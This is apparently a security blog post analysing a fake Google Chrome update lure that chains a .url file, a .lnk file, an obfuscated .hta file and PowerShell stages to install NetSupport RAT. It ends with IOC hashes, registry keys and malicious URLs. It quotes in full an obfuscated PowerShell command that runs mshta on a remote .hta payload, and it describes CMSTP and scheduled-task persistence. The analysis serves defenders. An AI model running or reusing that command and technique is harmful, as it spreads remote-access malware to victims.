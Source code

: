 ```yaml
---
layout: post
title: "Google Chrome Update? More Like Infected With Netsupport Rat!​"
categories: blog
---
```


Today we received and alert about and endpoint running a suspicious commandline:

[![7-31-23_1.png](/assets/images/7-31-23/7-31-23_1.png)](/assets/images/7-31-23/7-31-23_1.png)

This commandline downloaded a .lnk file, inside the .lnk file was the following command:

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" \W*\\\\*2\\\m*h*a*e ('http'+'s://alexiakombou.com/wp-content/uploads/2021/12/EN-localer.'+'hta')

[![7-31-23_2.png](/assets/images/7-31-23/7-31-23_2.png)](/assets/images/7-31-23/7-31-23_2.png)


I was surprised to see davclnt.dll in use here. After some further investigation, we discovered the root of the rundll32 command was a fake Google Chrome update page that the user encountered. When they clicked to update, a .url file was downloaded

[![7-31-23_1-1.png](/assets/images/7-31-23/7-31-23_1-1.png)](/assets/images/7-31-23/7-31-23_1-1.png)

When launched, this prompted Window to execute rundll32,davclnt.dll and connect to the malicious ip to download the .lnk file.
The contents of the .lnk file were the powershell command to run mshta.

.hta files are fun, a lot of opportunity for some shenanigans. Let's see what's inside.

[![7-31-23_3.png](/assets/images/7-31-23/7-31-23_3.png)](/assets/images/7-31-23/7-31-23_3.png)

Mhmm.

[![7-31-23_4.png](/assets/images/7-31-23/7-31-23_4.png)](/assets/images/7-31-23/7-31-23_4.png)

Yup.

[![7-31-23_5.png](/assets/images/7-31-23/7-31-23_5.png)](/assets/images/7-31-23/7-31-23_5.png)

Definitely valid business use case here!

This .hta file uses some number/string character substitution and a string of eval statements to run the variable 'res' that is set on line 63.

Inside the parent Execute statement is an incredible amount of quotes.

[![7-31-23_6.png](/assets/images/7-31-23/7-31-23_6.png)](/assets/images/7-31-23/7-31-23_6.png)

The massive amount of double quotes will be canceled out, and serve as a simple method to defeat analysis and attempt to evade EDR tools. It also obfuscates the true nature of the eval statements by hiding the name of the variable that the script intends to execute.

So since this is vbscript, the easiest way to pull out the code hidden in here is to change the Execute statement to write to a file instead of actually executing the code in 'res'.

[![7-31-23_7.png](/assets/images/7-31-23/7-31-23_7.png)](/assets/images/7-31-23/7-31-23_7.png)


Now we can simply double click the .hta file, and let Windows execute it with mshta, as expected, and the .hta file will no longer execute the malicious code, but dump it to disk.

[![7-31-23_8.png](/assets/images/7-31-23/7-31-23_8.png)](/assets/images/7-31-23/7-31-23_8.png)

Better!

Still hard to read, but the most interesting bit is clearly in the middle with the encoded powershell command.

The 'cTE' function is to create char codes for line 20, which converts to 'wscript.shell' and then invokes the powershell script in line 21.
The rest of this code looks useless!

To decode the powershell, I will stick it in vscode and reformat it(replacing the semicolons with new lines), then stick it into ise.

The first line is a large base64, encrypted, compressed blob.
The rest of the code looks like this

[![7-31-23_9.png](/assets/images/7-31-23/7-31-23_9.png)](/assets/images/7-31-23/7-31-23_9.png)

Nothing special here, decrypting, converting and then decompressing the payload. 
Now we can get this second payload by simple changing line 24 to:

[![7-31-23_10.png](/assets/images/7-31-23/7-31-23_10.png)](/assets/images/7-31-23/7-31-23_10.png)

This will give us the second powershell script, which is another long oneliner, so back into VSCode to re-format and then back to ISE.

[![7-31-23_11.png](/assets/images/7-31-23/7-31-23_11.png)](/assets/images/7-31-23/7-31-23_11.png)

[![7-31-23_12.png](/assets/images/7-31-23/7-31-23_12.png)](/assets/images/7-31-23/7-31-23_12.png)


This is fun.

I went ahead and did some further decoding/renameing to make the scripts intentions a little more clear.

Function 1 simply writes all bytes supplied to it to a path also supplied to it.

[![7-31-23_13.png](/assets/images/7-31-23/7-31-23_13.png)](/assets/images/7-31-23/7-31-23_13.png)

Function 2 does a few things.

It takes a path in appdata, checks if it ends with '.zip' and if it does, it unzips the .zip, sets a variable to 1 and then deletes the zip file in appdata. 
If the filename does NOT end with '.zip', it checks if the previous variable is equal to 1, if it is, it moves the current file into the extracted zip folder path. It then converts some text to base64 and stores it in a variable. Then it take some base64 text and decodes it, concatenating it with the start of a powershell command. Finally it will convert all of this to base 64 and run it via powershell.

Whew that was a mouthful.

We'll come back to that script in a moment, let's finish checking the functions on the second script.

[![7-31-23_14.png](/assets/images/7-31-23/7-31-23_14.png)](/assets/images/7-31-23/7-31-23_14.png)

This first function is a wrapper to download a file.
The second is for converting the characters in the final function.

[![7-31-23_15.png](/assets/images/7-31-23/7-31-23_15.png)](/assets/images/7-31-23/7-31-23_15.png)

This final function sets variable for a zip file, then checks to see if that zip file exists. If it doesn't, it users the 2 previous functions to decode the url and download the zip.
Next it does the same for a .exe file.
Then it runs the final function.

In the Else statements we can see the large function come into play. Let's look at that tertiary script from earlier.

[![7-31-23_16.png](/assets/images/7-31-23/7-31-23_16.png)](/assets/images/7-31-23/7-31-23_16.png)

Loading user32.dll into memory

[![7-31-23_17.png](/assets/images/7-31-23/7-31-23_17.png)](/assets/images/7-31-23/7-31-23_17.png)

This function is designed to write contents to a custom .inf file, 'CMSTP.inf'.
Of note is the powershell command string, this will contain registry settings and scheduled task settings to run the 'client32.exe' file downloaded.

[![7-31-23_18.png](/assets/images/7-31-23/7-31-23_18.png)](/assets/images/7-31-23/7-31-23_18.png)

Finally, the script creates functions to get a handle to a running process, and then set the window to active, runs the first function, executes the inf file and then keeps it running if it is terminated.

CMSTP.inf is designed to be executed and run the encoded powershell command.

[![7-31-23_19-1.png](/assets/images/7-31-23/7-31-23_19-1.png)](/assets/images/7-31-23/7-31-23_19-1.png)

When run, this will run the following powershell

[![7-31-23_20-1.png](/assets/images/7-31-23/7-31-23_20-1.png)](/assets/images/7-31-23/7-31-23_20-1.png)

Effectively this will add the client32.exe to the registry, set it to launch via a scheduled task and then start the process.

So what is client32.exe?

[![7-31-23_19.png](/assets/images/7-31-23/7-31-23_19.png)](/assets/images/7-31-23/7-31-23_19.png)

Netsupport RAT!

And the zip folder was kind enough to inclued a .ini file with the C2 IP hardcoded for us

[![7-31-23_20.png](/assets/images/7-31-23/7-31-23_20.png)](/assets/images/7-31-23/7-31-23_20.png)

Using this, we can easily search our environment for this IP, and hashes from both client32.exe and CreationTools.zip. Luckily, Crowdstirke prevent this chain from fully executing at the .hta stage, and a search confirmed these files never made it to disk.


# IOCs:

Name                  | Sha256 Hash           |
--------------------- | --------------------- |
​En-Localer.hta        | 6318e4335b1098781e35d7464d20b7f92015e86f21c5aad3147e18d6bf9bba7d |
​silentupdater.lnk     | ​59b392a0ff9a3ff064b5a4ab90de5b68c758429280c612fd08f9399475d3108d |
silent.url            | ​508a5051f1e98822ae71f164700e9e5dc087cb6fbe7df1a7e9fd3403981bde84 |
​CMSTP.inf             | ​3e44025d47415dcb497c4f894f94263bf2658bb0c20bc43ca40950207794cf08 |
​CreationTools.zip     | ​c45bf5155cdd7c9a4017b818a54b332070121819a7866c58c3cfd9d684c13a20 |
​client32.exe	       | ​49a568f8ac11173e3a0d76cff6bc1d4b9bdf2c35c6d8570177422f142dcfdbe3 |



## Host based indicators:
### Directories:
C:\Users\USER\AppData\Roaming\CreativeTools

C:\Users\USER\Appdata\Local\Temp

### Registry Keys:
HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command -Value C:\Users\USER\AppData\Roaming\CreativeTools\client32.exe

## Network based indicators:

### TCP ports:
443

### URLs:
hxxps://alexiakombou[.]com/wp-content/uploads/2022/01/downloader(updchr(V104.215.214)silent.url

hxxps://alexiakombou[.]com/wp-content/uploads/2021/12/EN-localer.hta

185.252.179.64@80 hxxp://185.252.179.64/Downloads/silentupdater-chr(v105).lnk